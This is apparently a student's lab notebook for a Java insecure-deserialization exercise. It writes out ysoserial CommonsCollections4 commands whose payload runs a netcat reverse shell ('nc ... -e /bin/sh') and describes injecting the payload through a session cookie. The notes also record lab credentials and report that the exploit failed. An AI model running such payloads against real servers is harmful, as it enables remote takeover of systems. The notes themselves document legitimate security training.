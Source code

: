 # Insecure Serialization


## plan
- 1. in shell listen via netcat
- 2. generate exploit pass netcat clien into it
- 3. pass this exploit into website with java deserializatino vulnerability
    - now it should connect to netcat server (in my web shell).. creating a reverse shell
    - now i should be able to control webserver

Trying to generate payload (none of them worked.. always showed help and produced an empty file)

`docker run ysoserial CommonsCollections4 'hello'` (test payload.. running as root)
`docker run ysoserial CommonsCollections4 'nc 10.103.0.5 1337 -e /bin/sh' > javaPayload` (worked.. running as root)



 
```
    
cd /var/li/dock/o/z/diff/app/target
java -jar ysoserial.jar CommonsCollections4 nc 10.103.0.6 1337 -e /bin/sh > dansPayload

```

## Answers


## Steps


**1user  Analyze insecure/serialization website**
Insecure/deserialization credentials
thomas
mypass22


Cookie values: 
- JSESSIONID:"80D9B52D7F671CC3B97B43C985F9A8CC"
- user:"rO0ABXNyAB9uZXQuaXNjaGkuaGwuc2VyaWFsaXphdGlvbi5Vc2VyAAAAAAAAAAECAAJMAAhwYXNzd29yZHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACHVzZXJuYW1lcQB+AAF4cHB0AAZ0aG9tYXM="
    - seems to be java serialization code (starting with "rO0")


**2 generate  exploit**
Running ysoserial reverse shell
1. get ysoserial from github
```
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
```
2. fix dockerfile according to: https://github.com/frohoff/ysoserial/pull/193
3. run docker and generate paylod into a file dansPayload (did it as root probably not necessary)
```
docker build -t ysoserial .
docker run ysoserial --help
docker run ysoserial CommonsCollections4 'hello'
docker run ysoserial CommonsCollections4 'nc 10.103.0.5 1337 -e /bin/sh' | base64 > danPayload

```






**3  exploit**
1. in shell start nc server

2. pass exploit in browser (tried with FF)
    - go to https://033f187d-1852-4ccb-9e8e-2fc217536de8.idocker.vuln.land/ and log in
    - in developer tools change cookie with 'user' to value in payload
        - error message appears (which is to be expected)
        - command in payload should be executed
            - did not work however :-(


![Browser error msg](InsecureSerialization.png)



**Reverse shell **
credentials
- username: hacker
- password: w3BCd7s9fn4a
10.103.0.6.  Port 1337 or 4242 
`nc 10.103.0.5 1337 -e /bin/sh`
<span style="color:red">creating exploit not working.. java installation problem
    
    TODO check messages: docker file has to be adapted manually 
       </span>